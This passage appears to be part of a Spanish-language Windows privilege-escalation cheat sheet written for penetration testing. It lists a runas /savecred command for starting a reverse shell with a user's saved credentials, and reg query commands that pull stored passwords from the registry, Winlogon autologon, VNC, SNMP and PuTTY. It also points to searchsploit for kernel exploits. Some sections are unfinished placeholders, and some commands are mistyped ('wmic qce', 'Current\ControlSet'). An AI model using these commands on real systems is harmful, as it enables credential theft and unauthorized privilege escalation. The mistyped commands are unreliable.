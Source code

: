 Correr la reverse shell con las credenciales guardadas del usuario
~~~~c
>> runas /savecred /user:USUARIO C:\PATH de la reverse
~~~~


## Credenciales del registro
Busar contraseñas en el registro de la maquina
~~~~c
>> reg query HKLM /f password /t REG_SZ /s
~~~~

Buscar contraseñas del registro del usuario
~~~~c
>> reg query HKCU /f password /t REG_SZ /s
~~~~

Credenciales en Autologon
~~~~c
>> reg query "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon"
~~~~

Credenciales guardadas en VNC
~~~~c
>> reg query "HKCU\Software\ORL\WinVNC3\Password"
~~~~

Credenciales en parametros SNMP
~~~~c
>> reg query "HKLM\System\Current\ControlSet\Services\SNMP"
~~~~

Credenciales en Putty
~~~~c
>> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
~~~~

## Credenciales de archivos desatendidos o Sysprep
Se va a rellenar
Archivo Unnatended.xml

## Credenciales de Archivos de logs
Se va a rellenar

## Grupos de Usuario
Se va a llenar 

# Exploits

## Servicios corriendo en Localhost
Enumerar mediante la herramienta automatica los servicios corriendo y tirar de searchsploit

## Versión de Kernel
1º Buscar los parches existentes
~~~~c
>> wmic qce
~~~~

